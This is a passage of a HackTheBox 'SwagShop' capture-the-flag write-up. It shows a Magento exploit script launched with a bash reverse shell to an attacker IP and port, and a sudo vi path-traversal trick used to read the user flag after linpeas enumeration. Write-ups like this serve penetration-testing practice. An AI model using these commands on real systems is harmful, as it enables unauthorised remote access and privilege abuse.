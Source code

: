 Finally the exploit worked:

![exploit worked](/assets/img/htb/machines/linux/easy/swagshop/success.png)

## Reverse shell (`www-data`)

{% highlight bash %}
$ python 37811.py http://10.10.10.140/index.php/admin/ "bash -c 'bash -i >&/dev/tcp/10.10.14.7/4444 0>&1'"
{% endhighlight %}

![sh](/assets/img/htb/machines/linux/easy/swagshop/sh.png)

![reverse-shell](/assets/img/htb/machines/linux/easy/swagshop/reverse-shell.png)

Now that we have an acces to the machine's shell, let's do enumeration with **linpeas.sh**:

![sudo -l](/assets/img/htb/machines/linux/easy/swagshop/linpeas.png)

Thanks to this misconfiguration with the wildcard we can read both user and root flags, using `vi` as follows:

## User (`haris`)

{% highlight bash %}
$ sudo /usr/bin/vi /var/www/html/../../../home/haris/user.txt
{% endhighlight %}
